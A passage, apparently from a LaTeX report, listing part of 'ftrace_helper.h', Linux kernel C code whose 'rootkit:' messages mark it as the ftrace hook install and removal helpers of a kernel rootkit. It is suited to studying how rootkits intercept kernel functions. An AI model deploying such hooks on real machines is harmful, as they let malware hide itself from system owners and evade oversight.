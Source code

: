\begin{lstlisting}[language=C, label=lst:ftrace_helper_h, caption=ftrace\_helper.h.]
    return 0;
}

void fh_remove_hook(struct ftrace_hook *hook)
{
    int err;
    err = unregister_ftrace_function(&hook->ops);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: unregister_ftrace_function() failed: %d\n", err);
    }

    err = ftrace_set_filter_ip(&hook->ops, hook->address, 1, 0);
    if(err)
    {
        printk(KERN_DEBUG "rootkit: ftrace_set_filter_ip() failed: %d\n", err);
    }
}

int fh_install_hooks(struct ftrace_hook *hooks, size_t count)
{
    int err;
    size_t i;

    for (i = 0 ; i < count ; i++)
    {
        err = fh_install_hook(&hooks[i]);
        if(err)
        {
            fh_remove_hooks(hooks, i);
            return err;
        }
    }
    return 0;
}

void fh_remove_hooks(struct ftrace_hook *hooks, size_t count)
{
    size_t i;
    for (i = 0 ; i < count ; i++)
        fh_remove_hook(&hooks[i]);
}
\end{lstlisting}

